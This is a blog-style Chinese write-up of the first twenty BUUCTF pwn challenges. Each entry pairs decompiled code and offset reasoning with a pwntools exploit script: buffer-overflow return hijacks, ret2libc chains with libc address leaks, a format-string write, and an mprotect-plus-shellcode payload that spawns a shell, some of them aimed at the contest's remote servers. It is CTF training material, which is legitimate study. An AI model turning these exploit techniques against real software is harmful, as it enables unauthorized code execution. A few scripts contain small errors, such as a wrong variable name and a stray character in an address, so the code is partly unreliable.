



buuctf刷题记录（1-20题）
by Maple
有人说我的前面的题解没解析，看不懂？那我来补上了
1 test_nc
nc 节点 端口
没有nc？去看这篇！
然后cat flag
- cat:catch 抓住。就是显示文件中的内容
2 rip
打开ida看下源码
int __fastcall main(int argc, const char **argv, const char **envp)
{
char s[15]; // [rsp+1h] [rbp-Fh] BYREF
puts("please input");
gets(s, argv);
puts(s);
puts("ok,bye!!!");
return 0;
}
看到一个不限制输入长度的gets()函数，并且根据ida的分析，s位于栈底（rbp）上方0xF处,那么我们输入0xF字节之后再覆盖掉rbp，是不是就到了rbp下面的返回地址处？那么我们把后门函数的地址写在返回地址处，不就可以跳转到后门函数了嘛
为什么rbp下面是返回地址？罚你看这篇
exp:
from pwn import *
p = process('./pwn1')
p.sendline(b'a'*0xF+b'b'*0x8+p64(0x40118a))
p.interactive()
3 warmup_csaw_2016
和上一题是一样的，可以将v5和rbp覆盖，然后篡改返回地址
exp:
from pwn import *
#p = process('./pwn')
p = remote('node5.buuoj.cn',28694)
payload = b'a'*72+p64(0x40060d)
p.sendline(payload)
p.interactive()
在本地打了半天以为我有问题，最后想起来system执行的是cat flag，不会有shell
4 ciscn_2019_n_1
看下ida逆出来的代码

发现想要获取flag的内容，需要v2=11.28125,但是，我们一定要让if执行嘛，一定要合程序的意嘛，都打pwn了，怎么可以顺着程序的意来呢
所以有两种思路，一种是覆盖返回地址，一种是覆盖v2
- 覆盖返回地址，直接
return system处
exp:
from pwn import *
p = process('./pwn')
retaddr=0x4006BE
payload=b'a'*56+p64(retaddr)
p.sendline(payload)
p.interactive()
- 覆盖v2数值
可以看到我们的输入是在v2赋值之后的事，所以可以通过溢出来把v2的值给覆盖了，0x2c = 0x30-0x4
不知道为什么填充的是
0x4138000?学一下浮点数的存储叭，或者，按下tab，对准那个黄色的地方双击（如果不是这样子的话按下空格）
你就得到了11.28125的十六进制存储

exp：
from pwn import *
p = process('./pwn')
payload = b'a'*0x2c+p64(0x41348000)
p.sendline(payload)
p.interactive()
5 pwn1_sctf_2016
限制了32字节的读入，但是后面的操作会把I变为you，留4字节给esp，输入20个I就行
from pwn import *
p = process('./pwn')
payload = b'I'*20+b'a'*4+p32(0x8048F0D)
p.sendline(payload)
p.interactive()
这次学好了，先在本地创建了一个flag.txt的文件
6 jarvisoj_level0
ret2text不多说了(用了下自己的模板，有很多不需要)
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#p = remote('',)
def dbg():
gdb.attach(p)
pause()
payload = b'a'*0x80+b'b'*0x8+p64(0x40059A)
p.sendline(payload)
p.interactive()
7 [第五空间2019 决赛]PWN5
有一个很好用的pwntools语法：
fmtstr_payload(number,{addr:value})
number表示偏移字节数，addr为你要写入的地址，value为你要更改为的数值
这里分析题目可以发现，我们在buf段溢出，然后覆盖dword_804C044，再输入相同的覆盖值就行
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
p.recvuntil('name:')
payload = fmtstr_payload(11,{0x804C044:0x1})
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")
p.interactive()
8 jarvisoj_level2
一个32位的题目，和64位有些区别，但不多
32位system（）利用栈传参，不用寄存器.
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
sys = 0x8048320 # system的地址
binsh = 0x804A024 #binsh的地址
payload = b'a'*0x88+b'b'*0x4+p32(sys)+p32(1)+p32(binsh)
#垃圾数据+覆盖返回地址(32位是4字节）+system地址调用+随意参数填充+binsh填充
p.sendline(payload)
p.interactive()
9 ciscn_2019_n_8
可以发现如果var[13]是17就getshell
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
payload = p32(17)*14
p.sendline(payload)
p.interactive()
10 bjdctf_2020_babystack
自定义输入长度，栈溢出
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
p.sendline(b'100')
payload = b'a'*0x10+b'b'*0x8+p64(0x4006EA)
p.sendline(payload)
p.interactive()
11 ciscn_2019_c_1
ret2libc，加密的地方可以溢出，可以在输入的地方输入一个'\0'绕开加密过程
from pwn import*
from LibcSearcher import*
p=remote('node5.buuoj.cn',26071)
#p = process('./pwn')
elf=ELF('./pwn')
main = 0x400B28
pop_rdi = 0x400c83
ret = 0x4006b9
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
p.sendlineafter('Input your choice!\n','1')
offset = 0x50+8
payload = b'\0'+b'a'*(offset-1)
payload+=p64(pop_rdi)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(main)
p.sendlineafter('Input your Plaintext to be encrypted\n',payload)
p.recvline()
p.recvline()
puts_addr=u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
print(hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
p.sendlineafter('Input your choice!\n','1')
payload = b'\0'+b'a'*(offset-1)
payload+=p64(ret)
payload+=p64(pop_rdi)
payload+=p64(binsh)
payload+=p64(system)
p.sendlineafter('Input your Plaintext to be encrypted\n',payload)
p.interactive()
12 jarvisoj_level2_x64
rdi传递binsh
又是本地打不通，远程可以打通，不理解
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#p = remote('node5.buuoj.cn',28182)
def dbg():
gdb.attach(p)
pause()
pop_rdi = 0x00000000004006b3
binsh = 0x600A90
system = elf.plt['system']
ret = 0x00000000004004a1
p.recv()
payload = b'b'*0x80+b'b'*8+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendline(payload)
p.interactive()
13 get_started_3dsctf_2016
-
通过mprotect()函数改内存为可读可写可执行
-
加入read函数
-
在read函数中构造shellcode
至于为什么是0x80EB000而不是bss段的开头0x80EBF80。
因为指定的内存区间必须包含整个内存页（4K），起始地址 start 必须是一个内存页的起始地址，并且区间长度 len 必须是页大小的整数倍。
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25636)
def dbg():
gdb.attach(p)
pause()
pop_ret = 0x0804951D# 这里是一个有三个寄存器的pop_ret
mprotect_addr = elf.sym['mprotect']
mem_addr = 0x80EB000
mem_size = 0x1000
mem_proc = 0x7
read_addr = elf.sym['read']
# 调用mprotect函数
payload = b'a'*0x38
payload+=p32(mprotect_addr)
payload+=p32(pop_ret)
# 填充mprotect参数
payload+=p32(mem_addr)
payload+=p32(mem_size)
payload+=p32(mem_proc)
# 调用read函数
payload+=p32(read_addr)
payload+=p32(pop_ret)
# 填充read参数
payload+=p32(0)
payload+=p32(mem_addr)
payload+=p32(0x100)
# read返回后跳转到shellcode所在地址
payload+=p32(mem_addr)
p.sendline(payload)
payload2 = asm(shellcraft.sh())
p.sendline(payload2)
p.interactive()
int mprotect(void *addr, size_t len, int prot); (NX保护绕过)
- void *addr：目标内存区域的起始地址，必须按页对齐（对齐到系统页大小）
- **页**是操作系统管理内存的最小单位，大小通常为4KB(4096字节)或2MB(64位某些情况下的大页内存），页对齐是指内存地址必须是页大小的整数倍
- size_t len
- 要修改权限的内存区域长度，必须是页大小的整数倍
- int prot：权限标志位，通过位掩码组合
- PROT_READ(可读)
- PROT_WRITE(可写）
- PROT_EXEC(可执行)
- 返回值：
- 成功：返回
0 - 失败：返回
-1，并设置errno
14 [HarekazeCTF2019]baby_rop
ROP构造
from pwn import *
p = process('./pwn')
elf = ELF('./pwn')
system_addr = elf.sym['system']
binsh = 0x601048
pop_rdi = 0x400683
ret = 0x400479`0
payload = b'a'*0x10+b'b'*0x8+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system_addr)
p.sendline(payload)
p.interactive()
15 others_shellcode
我没看明白这题想干嘛，反正直接nc就getshell了，那就这样吧，似乎是直接进行了...
16 [OGeek2019]babyrop
感觉这题有些难度，稍微讲一下吧
checksec一下
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/16/pwn'
Arch: i386-32-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
可以看到没有canary保护
看一下主函数怎么说：
int __cdecl main()
{
int buf; // [esp+4h] [ebp-14h] BYREF
char v2; // [esp+Bh] [ebp-Dh]
int fd; // [esp+Ch] [ebp-Ch]
sub_80486BB();
fd = open("/dev/urandom", 0);
if ( fd > 0 )
read(fd, &buf, 4u);
v2 = sub_804871F(buf);
sub_80487D0(v2);
return 0;
}
在fd大于0的时候会读取数据，来到sub_804871F里看看
int __cdecl sub_804871F(int a1)
{
size_t v1; // eax
char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
ssize_t v5; // [esp+4Ch] [ebp-Ch]
memset(s, 0, sizeof(s));
memset(buf, 0, sizeof(buf));
sprintf(s, "%ld", a1);
v5 = read(0, buf, 0x20u);
buf[v5 - 1] = 0;
v1 = strlen(buf);
if ( strncmp(buf, s, v1) )
exit(0);
write(1, "Correct\n", 8u);
return (unsigned __int8)buf[7];
}
可以发现在if (strncmp(buf, s, v1))函数这里，如果s和buf的长度不一样就会退出程序
但是这个函数本质上和strlen一样，在判断的字符串前加上\x00就直接跳过了，所以我们在输入的垃圾字符第一位加上\x00就行
可以看到函数会将buf这个char型数组的buf[7]传出来给v2，再传递给sub_80487D0(v2)
去sub_80487D0(v2)里看看
ssize_t __cdecl sub_80487D0(char a1)
{
char buf[231]; // [esp+11h] [ebp-E7h] BYREF
if ( a1 == 127 )
return read(0, buf, 0xC8u);
else
return read(0, buf, a1);
}
可以看到这个里面的read读取数据的大小取决于传入的a1(其实就是v2，也就是buf[7])
所以我们将buf[7]取到它的最大值（'\xff')，这个时候就可以通过溢出来构造ret2libc
ssize_t write(int fd, const void *buf, size_t count);
- fd:文件描述符，代表要写入的目标
- 0：标准输入（通常不用于写入）
- 1：标准输出（默认输出到终端）
- 2：标准错误（默认输出到终端）
- const void *buf:指向待写入数据的缓冲区指针
- size_t count:要写入的字节数（从
buf中读取的字节数） - 如果
count为0，不会写入数据，但仍会检查文件描述符的有效性 - 返回值:
- 成功：返回实际写入的字节数
- 失败：返回
-1，并设置error标识错误类型
from pwn import *
from LibcSearcher import *
context(log_level='debug')
libc=ELF('./libc-2.23.so') # 题目描述里有下载libc-2.23.so的网址
p=process('./pwn')
#p=remote('node5.buuoj.cn',27450)
elf=ELF('./pwn')
ret=0x08048502
payload='\x00'+'\xff'*7
p.sendline(payload)
write_plt=elf.plt["write"]
write_got=elf.got["write"]
main_addr=0x08048825
p.recvuntil("Correct\n")
payload1=b'a'*0xe7+b'a'*4+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(8)
# 溢出+覆盖+根据plt调用+返回main地址+wirte第一个参数+wirte第二个参数+write第三个参数
p.sendline(payload1)
write_addr=u32(p.recv(4))
libc_base=write_addr-libc.sym['write']
log.info("libc_base:"+hex(libc_base))
bin_sh_addr=libc_base+next(libc.search(b'bin/sh'))
system_addr=libc_base+libc.sym['system']
p.sendline(payload)
p.recvuntil("Correct\n")
payload2=b'a'*0xe7+b'a'*4+p32(system_addr)+p32(0)+p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()
17 ciscn_2019_n_5
有两种做法，第一种应该是题目的原意，但是我的ubuntu版本比较高，出现了一些问题，就直接当作ret2libc来写了
第一种：
因为第一次输入name的地方很大并且可执行，所以写入shellcode，然后跳转到name的地址就好
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25442)
def dbg():
gdb.attach(p)
pause()
shellcode = asm(shellcraft.sh())
p.recvuntil(b'name\n')
p.sendline(shellcode)
p.recvuntil('me?\n')
payload = b'a'*0x20+b'a'*0x8+p64(0x601080)
p.sendline(payload)
p.interactive()
第二种：
直接当作ret2libc来写，第二次的时候可以先把/bin/sh写入name中，然后调用name里的，记得先ret对齐一下
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25442)
def dbg():
gdb.attach(p)
pause()
puts_got = elf.got['puts']
puts_plt=elf.plt['puts']
main = elf.sym['main']
pop_rdi = 0x400713
ret = 0x00000000004004c9
p.recvuntil('name\n')
p.sendline(b'a')
p.recvuntil('me?\n')
payload = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')
log.info("libc_base:"+hex(libc_base))
system = libc_base+libc.dump('system')
p.sendafter(b'name\n', b'/bin/sh\x00')
payload =b'a'*(0x20 +8) +p64(ret) +p64(pop_rdi) +p64(0x601080) +p64(system)
p.sendlineafter(b'me?\n',payload)
p.interactive()
LibcSearcher选择第6个
18 not_the_same_3dsctf_2016
ida里面可以看到，在main函数上面的get_secret函数将flag.txt里的内容读入到了bss段，那么可以用write函数将其打印出来
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27329)
def dbg():
gdb.attach(p)
pause()
write_addr = elf.sym['write']
flag = 0x80ECA2D
payload = b'a'*45+p32(0x80489A0)+p32(write_addr)+p32(0)+p32(1)+p32(flag)+p32(42)
# 填充+读取flag函数跳转+write函数调用+write返回后的地址+fd参数+flag地址+输出字节数
p.sendline(payload)
p.interactive()
19 ciscn_2019_en_2
ret2libc,没啥好说的，跟之前有一题很像
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29048)
def dbg():
gdb.attach(p)
pause()
pop_rdi = 0x0000000000400c83
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ret = 0x4006b9
main = elf.sym['main']
p.recvuntil(b'choice!\n')
p.sendline(b'1')
p.recvuntil(b'encrypted\n')
payload = b'\x00'+b'a'*0x57+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')
log.info("libc_base:"+hex(libc_base))
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
p.recvuntil(b'choice!\n')
p.sendline(b'1')
p.recvuntil(b'encrypted\n')
payload = b'\x00'+b'a'*0x57+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(sys)
p.sendline(payload)
p.interactive()
20 ciscn_2019_ne_5
这个题目挺有意思的
ida里看到4那个选项对应的就是GetFlag(),里面说我们输入的log就是flag，那么我们应该先选一输入system(/bin/sh),但是没找到/bin/sh，
system(sh)也是可以的
这份exp是直接截断了fflush，也可以用ROPgadget --binary pwn --string "sh"来查查，确实有一个(似乎就是这一个)
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
binsh = 0x80482E6+4 #0x80482E6是字符串fflush，这里对它做了一个截断，留下了sh
sys_addr = 0x80484D0
p.sendlineafter(b'password:',b'administrator')
p.recvuntil(b':')
p.sendline(b'1')
payload = b'a'*0x48+b'b'*0x4+p32(sys_addr)+b'a'*4+p32(binsh)
p.recvuntil(b'info:')
p.sendline(payload)
p.recvuntil(b':')
p.sendline(b'4')
p.interactive()